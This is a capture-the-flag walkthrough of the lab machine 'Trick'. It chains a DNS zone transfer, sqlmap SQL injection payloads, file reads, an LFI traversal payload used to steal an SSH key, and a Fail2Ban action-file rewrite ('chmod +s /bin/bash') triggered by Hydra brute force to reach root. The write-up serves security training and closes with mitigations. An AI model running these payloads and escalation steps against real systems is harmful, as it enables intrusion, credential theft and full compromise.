



# Machine Information

<table>
<tr>
<td><strong>IP Address</strong></td>
<td>10.129.227.180</td>
</tr>
<tr>
<td><strong>Operating System</strong></td>
<td>Linux</td>
</tr>
<tr>
<td><strong>Hostname</strong></td>
<td>TRICK</td>
</tr>
<tr>
<td><strong>Domain</strong></td>
<td>trick.htb</td>
</tr>
<tr>
<td><strong>Release Date</strong></td>
<td>September 2021</td>
</tr>
<tr>
<td><strong>Difficulty</strong></td>
<td>Easy</td>
</tr>
</table>

# Machine Description

Trick is an Easy-level Linux machine that focuses on web vulnerabilities and privilege escalation through misconfigured services. The machine features a payroll web application vulnerable to SQL injection, an additional marketing site with local file inclusion, and a privilege escalation vector through the Fail2Ban service running with root privileges.


# Exploitation Summary

The attack chain involved:

1. **Reconnaissance**: DNS zone transfer revealing multiple virtual hosts
2. **SQL Injection**: Exploiting the login form in the payroll application to extract system files
3. **Local File Inclusion**: Discovering and exploiting an LFI vulnerability in the marketing site to retrieve SSH credentials
4. **SSH Access**: Gaining shell access as the michael user
5. **Privilege Escalation**: Leveraging sudo permissions combined with insecure Fail2Ban configuration to achieve root access


# Detailed Walkthrough

## Road to User Flag

### ***Phase 1: Initial Network Reconnaissance and Service Discovery***

I began by scanning the target machine with Nmap to identify open ports and running services:

```
$ sudo nmap 10.129.227.180 -Pn -sV

...SNIP...

PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
25/tcp open  smtp?  
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)  
80/tcp open  http    nginx 1.14.2 

...SNIP
```

The presence of DNS service suggested the possibility of a DNS zone transfer. I attempted an AXFR (Asynchronous Full Transfer) to enumerate DNS records:

```
$ dig axfr trick.htb @10.129.227.180

...SNIP...

trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800  
trick.htb.              604800  IN      NS      trick.htb.  
trick.htb.              604800  IN      A       127.0.0.1  
trick.htb.              604800  IN      AAAA    ::1  
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.  
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5

...SNIP...
```

The zone transfer was successful and revealed a `CNAME` record pointing to a new subdomain: `preprod-payroll.trick.htb`, which resolved to the primary domain. This discovery indicated the presence of virtual hosts on the web server.
##### ***Phase 2: Web Application Enumeration and SQL Injection Discovery***

I accessed the `preprod-payroll.trick.htb` subdomain and discovered a login form. 



After intercepting the login request with Burp Suite, I identified two POST parameters: `username` and `password`. 



I pasted the request in `req.txt` file and passed it to SQLMap to test the login form for SQL injection vulnerabilities:

```
$ sqlmap -r ~/HTB\ machines/Easy/Linux/Trick/req.txt

...SNIP...

Parameter: username (POST)  
   Type: time-based blind  
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)  
   Payload: username=htb-student' AND (SELECT 6718 FROM (SELECT(SLEEP(5)))CxCN) AND 'dIAV'='dIAV&password  
=test 

...SNIP...
```

SQLMap quickly identified that the `username` parameter was vulnerable to time-based blind SQL injection. Further testing with multiple injection techniques revealed additional vulnerabilities:

```
$ sqlmap -r ~/HTB\ machines/Easy/Linux/Trick/req.txt -p username --technique=BET --flush-session --level=5 --risk=3

...SNIP...

Parameter: username (POST)  
   Type: boolean-based blind  
   Title: OR boolean-based blind - WHERE or HAVING clause (NOT)  
   Payload: username=htb-student' OR NOT 7616=7616-- pCeq&password=test  
  
   Type: error-based  
   Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)  
   Payload: username=htb-student' OR (SELECT 1075 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT  
(ELT(1075=1075,1))),0x71786b7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)--  
bnFz&password=test 

...SNIP...
```

Error-based and boolean-based techniques were significantly faster than time-based injection.
### ***Phase 3: Database Enumeration and System File Extraction***

Using SQLMap, I enumerated the current database user:

```
$ sqlmap -r ~/HTB\ machines/Easy/Linux/Trick/req.txt --current-user

...SNIP...

current user: 'remo@localhost'

...SNIP...
```

The database was running under the user `remo@localhost`. I then checked the privileges associated with this account:

```
$ sqlmap -r ~/HTB\ machines/Easy/Linux/Trick/req.txt --privileges

...SNIP...

database management system users privileges:  
[*] %remo% [1]:  
   privilege: FILE
   
...SNIP...
```

The `remo` user possessed the `FILE` privilege, which allowed reading and writing to the file system with the permissions granted to the MySQL process. This enabled me to extract sensitive system files. I retrieved the content of `/etc/passwd` file:

```
$ sqlmap -r ~/HTB\ machines/Easy/Linux/Trick/req.txt --file-read=/etc/passwd --technique=BE
```

Among the users present, I identified michael (`uid 1001`) as a regular user with a bash shell. I also extracted the Nginx configuration file to identify all virtual hosts:

```
$ sqlmap -r ~/HTB\ machines/Easy/Linux/Trick/req.txt --file-read=/etc/nginx/sites-enabled/default

...SNIP...

server {
	listen 80;
	listen [::]:80;

	server_name preprod-marketing.trick.htb;

	root /var/www/market;
	index index.php;

	location / {
		try_files $uri $uri/ =404;
	}

        location ~ \.php$ {
	        include snippets/fastcgi-php.conf;
            fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
        }
}

...SNIP...
```

The configuration revealed the virtual hosts `preprod-marketing.trick.htb`, which processes PHP requests through a dedicated FPM socket for the `michael` user (`php7.3-fpm-michael.sock`). This makes preprod-marketing vhost particularly interesting as it ran PHP processes with `michael`'s privileges.
### ***Phase 4: Local File Inclusion and SSH Key Extraction***

I initially attempted to retrieve `michael`'s SSH private key directly through SQLMap, but this approach failed. I then discovered that the `preprod-marketing.trick.htb` site contained a parameter named `page` that appeared to be processing file inputs. 


To identify a working LFI payload, I used ffuf to fuzz the `page` parameter against a comprehensive LFI wordlist:

```
$ ffuf -w ~/Tools/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -fs 0
```

The fuzzing discovered that the payload `....//....//....//....//etc/passwd` successfully bypassed the application's input filtering, indicating a path traversal vulnerability with directory traversal filters. Using this payload, I intercepted a request in Burp Suite and modified it to retrieve `michael`'s SSH private key:



The private key was successfully extracted. I saved it locally and adjusted the permissions:

```
$ chmod 600 id_rsa
```
##### ***Phase 5: SSH Access and User Flag Retrieval***

With the SSH private key in hand, I established a connection to the target machine via SSH as the `michael` user:

```
$ ssh michael@10.129.227.180 -i id_rsa
```

After logging in, I navigated to `michael`'s home directory and retrieved the user flag:

```
$ cat user.txt
```

<mark>User flag</mark>: `68b91ffdff6653db7e17c1e941570cb5`

## Road to Root Flag

### ***Phase 1: User Enumeration and Privilege Assessment***

With shell access as `michael`, I began the privilege escalation process by checking the user's group memberships:

```
$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
```

Michael belonged to a custom group named **security**, which suggested special permissions might be assigned to this group. I then checked for sudo privileges:

```
$ sudo -l

...SNIP...

(root) NOPASSWD: /etc/init.d/fail2ban restart

...SNIP...
```

The output revealed that michael can restart the Fail2ban program as `root` without entering a password.
### ***Phase 2: Understanding Fail2Ban and Its Vulnerabilities***

Fail2Ban is a security tool designed to mitigate brute force attacks by monitoring authentication log files. When excessive failed login attempts are detected from a particular IP address, Fail2Ban automatically updates the system's firewall rules to block further connections from that address for a specified duration. The default configuration bans an IP after five failed authentication attempts within a ten-minute window, and maintains the ban for ten minutes. The key components that make Fail2Ban a potential attack surface are its configuration files and action scripts. Several configuration files control Fail2Ban's behavior:

- `fail2ban.conf`: Defines operational settings such as logging configuration, socket paths, and process identifiers. While essential for functionality, this file offers limited exploitation opportunities.
- `jail.conf`: Serves as the primary configuration file that defines security "jails" for different applications and services.
- `jail.local`: Extends jail.conf with custom settings that persist across updates, making it valuable for modifications.
- `iptables-multiport.conf`: The action configuration file responsible for manipulating firewall rules. This file contains the specific commands executed when an IP is banned or unbanned.

When Fail2Ban detects a trigger condition, it executes the actions defined in these configuration files. Since Fail2Ban runs with root privileges, any commands executed through these action files will inherit root permissions. I verified that Fail2Ban was indeed running as root:

```
$ ps aux | grep fail2ban
root    716  0.0  1.1 248664 22900 ?  Ssl  10:25   0:01 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

I examined the `/etc/fail2ban/jail.conf` to see the jail configuration:

```
$ cat /etc/fail2ban/jail.conf

...SNIP...

# "maxretry" is the number of failures before a host get banned.
maxretry = 5

...SNIP...
```

The configuration specified a maximum of five failed attempts before triggering a ban. I see then the active jails

```
$ cat /etc/fail2ban/jail.d/defaults-debian.conf
[sshd]
enabled = true
```

Only the SSH service jail was enabled by default.
### ***Phase 3: Identifying Write Permissions on Action Files***

The critical vulnerability lay in the file permissions of the action directory. I checked the directory ownership:

```
$ ls -ld /etc/fail2ban/action.d
drwxr-xr-x 126 root root     12288 Oct  1 10:50 ..  
-rw-r--r--   1 root root       738 Oct  1 10:54 paths-opensuse.conf  
-rw-r--r--   1 root root       573 Oct  1 10:54 paths-debian.conf  
-rw-r--r--   1 root root      2827 Oct  1 10:54 paths-common.conf  
-rw-r--r--   1 root root       645 Oct  1 10:54 paths-arch.conf  
drwxr-xr-x   2 root root      4096 Oct  1 10:54 jail.d  
-rw-r--r--   1 root root     22908 Oct  1 10:54 jail.conf  
drwxr-xr-x   3 root root      4096 Oct  1 10:54 filter.d  
drwxr-xr-x   2 root root      4096 Oct  1 10:54 fail2ban.d  
-rw-r--r--   1 root root      2334 Oct  1 10:54 fail2ban.conf  
drwxrwx---   2 root security  4096 Oct  1 10:54 action.d  
drwxr-xr-x   6 root root      4096 Oct  1 10:54 .
```

The `action.d` directory was owned by the root user but belonged to the security group with read-write-execute permissions (`rwx`). Since `michael` was a member of the security group, he could create and modify files within this directory. However, the individual action configuration files themselves were protected:

```
$ ls -la /etc/fail2ban/action.d/iptables-multiport.conf
-rw-r--r-- 1 root root 644 iptables-multiport.conf
```

While `michael` could not directly modify existing action files, he retained the ability to create new configuration files within the directory, or overwrite them if they had different permissions.

### ***Phase 4: Crafting the Privilege Escalation Payload***

I copied the `iptables-multiport.conf` file to `michael`'s home directory to examine its structure. It contained the following:

```
$ cp /etc/fail2ban/action.d/iptables-multiport.conf ~

...SNIP...

#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>

...SNIP...
```

I modified this configuration by commenting out the original action and replacing it with a malicious command:

```
...SNIP...

#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = chmod +s /bin/bash

...SNIP...
```

The new action would set the `SUID` bit on the bash executable, allowing it to run with root privileges regardless of the user who executes it. I then copied the modified file back to the `action.d` directory:

```
cp ~/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```

The system prompted for confirmation to overwrite the existing file, which I accepted.

### ***Phase 5: Triggering the Fail2Ban Exploit***

To activate the malicious action, I needed to trigger the SSH jail by exceeding the maximum failed login attempts. Using the sudo privilege, I restarted Fail2Ban to load the modified configuration:

```
sudo /etc/init.d/fail2ban restart
```

From my attack machine, I used Hydra to generate numerous failed SSH login attempts against the target:

```
hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://10.129.227.180
```

After exceeding five failed attempts within the timeout window, the SSH jail triggered, and Fail2Ban executed the action defined in the modified iptables-multiport.conf file. This resulted in the execution of `chmod +s /bin/bash` with root privileges.

### ***Phase 6: Privilege Verification and Root Flag Retrieval***

I returned to the SSH session and verified that the `SUID` bit had been successfully set on bash:

```
ls -la /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

The `s` in the file permissions confirmed that the SUID bit was active. I executed bash with the privileged mode flag to maintain root privileges:

```
/bin/bash -p
```

The `-p` flag invokes "privileged mode," which preserves the elevated privileges when executing bash. 

```
bash-5.0# whoami
root
```

I navigated to the `root` home directory and retrieved the root flag:

```
bash-5.0# cat /root/root.txt
```

<mark>Root flag</mark>: `67412bcf93616d5f9f3a67deab2e452c`


## Key Vulnerabilities Exploited

- **SQL Injection in Login Form**: The payroll application failed to properly sanitize user input in the login form, allowing attackers to inject SQL commands through the username parameter. Multiple injection techniques (error-based, boolean-based, and time-based blind) were possible, enabling comprehensive database enumeration.
- **Excessive File Privileges**: The MySQL service was granted the FILE privilege, allowing it to read and write arbitrary files on the system. Combined with SQL injection, this enabled extraction of sensitive system files and configuration details.
- **Local File Inclusion in Marketing Site**: The preprod-marketing application processed user input in the page parameter without proper validation, allowing directory traversal attacks. The insufficient filtering of path traversal sequences (../ replaced with nothing, allowing ....// to bypass) enabled arbitrary file access.
- **Insecure Fail2Ban Configuration**: The fail2ban action.d directory was configured with group write permissions, allowing members of the security group to create and modify action configuration files. Combined with michael's sudo privileges to restart the service, this created a privilege escalation pathway.
- **Unprotected SUID Modification**: Bash's default behavior of allowing SUID bit modification through standard file permission commands enabled the creation of a privileged bash shell that maintains root privileges even when executed by regular users.


## Conclusion

The Trick machine demonstrates how multiple misconfigurations combine to enable complete system compromise. From SQL injection in web applications enabling database enumeration and credential extraction, to improper file access controls and insecurely configured security tools, each stage exploited the previous vulnerability. This emphasizes the importance of comprehensive input validation, least-privilege access controls, and careful configuration of security services. To mitigate these vulnerabilities, organizations should implement strict input validation and parameterized queries to prevent SQL injection attacks. Database service accounts should operate with minimal privileges, with the FILE privilege disabled unless absolutely necessary. Web applications must properly validate and sanitize user input to prevent directory traversal attacks through techniques like path normalization and whitelisting. Security tools like Fail2Ban should restrict write permissions on action configuration directories to authorized administrators only, and sudo privileges should be strictly limited to specific commands. Regular security audits and proper file permission reviews are essential to prevent misconfigured group access on sensitive directories. This case study underscores that complete system security requires defense in depth, as layered misconfigurations create a chain leading to root access.
